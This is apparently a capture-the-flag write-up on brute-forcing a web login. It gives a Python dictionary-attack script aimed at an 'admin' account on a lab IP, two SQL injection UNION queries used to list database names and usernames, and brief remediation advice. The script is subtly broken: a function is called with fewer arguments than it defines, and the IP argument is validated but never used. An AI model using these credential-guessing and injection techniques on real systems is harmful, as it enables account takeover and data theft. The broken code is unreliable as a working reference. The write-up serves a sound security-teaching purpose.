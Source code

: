 # Brute force login

### Introduction
Brute forcing involves attempting multiple combinations of passwords for a specific user until the correct password is discovered, granting access to the user's account.

### Procedure
Numerous brute force techniques exist, and our focus lies on the dictionary attack. This method involves systematically testing a list of potential passwords one by one until the correct password is successfully identified.

To accomplish this, we have created a small Python program, `brute_force.py`, which attempts to authenticate to the `admin` account by testing passwords from a dictionary named `dictionary.txt`. This dictionary contains the most popular passwords used by users in 2014.

### Program
We first starts by converting the lines of our dictionary into a list. This will allow us to successively trying each password from our list. 
```` python
def read_file(path: str):
	with open(path, 'r') as file:
		lines = []

		for line in file:
			lines.append(line.strip())

	return lines
````

Then, for each password in that list, we send a request to the server with the username `admin` using the function `try_authentication`. Every time we attempt an incorrect password, the server responds with a specific page. By recognizing this pattern, we can determine the correctness of a password based on the presence of the word `flag` in the response page. Therefore, if a response contains the word `flag`, we know the password is correct.
``` python
def try_authentication(wrong_request_length: int, username: str, password: str):
  print(f"[username: {username}] [password: {password}] => ", end="", flush=True)
  params = {
		'page': 'signin',
		'username': username,
		'password': password,
		'Login': 'Login'
	}

	encoded_params = urllib.parse.urlencode(params)

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	response = requests.get(url)
	success = response.text.find('flag') != -1
	print(success)

	return success, response.text
```

We use the username `admin` after discovering it during the `sql_injection_members` phase. Initially, we ran the query `1 UNION SELECT schema_name, 1 FROM information_schema.schemata;` to obtain a list of available databases. Subsequently, we executed `1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default;` to retrieve a list of accessible users. Upon discovering the correct password, we printed the response containing the sought-after flag.
```python
def main():
  try:
    assert len(sys.argv) == 2, "IP address is not valid."

    print("=== Brute forcing website ===")
    username = "admin"
    file = "dictionary.txt"
    passwords = read_file(file)

    for password in passwords:
      success, response = try_authentication(username, password)

      if success:
        print(response)
        return

    print(f"Password for username {username} is not in list.")
  except Exception as err:
    print(f'Error: {err}')
```

### How to fix
It is important for the service to compel users to select a strong password, safeguard the server from sending requests beyond the website by employing tokens, and implement measures to temporarily block IP addresses after a certain number of authentication attempts.

### Sources
[Wikipedia - Brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack)

[Wikipedia - List of the most common passwords](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

[OWASP - Blocking Brute Force Attacks](https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks)

[OWASP - Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)

[MySQL - The INFORMATION_SCHEMA SCHEMATA Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)
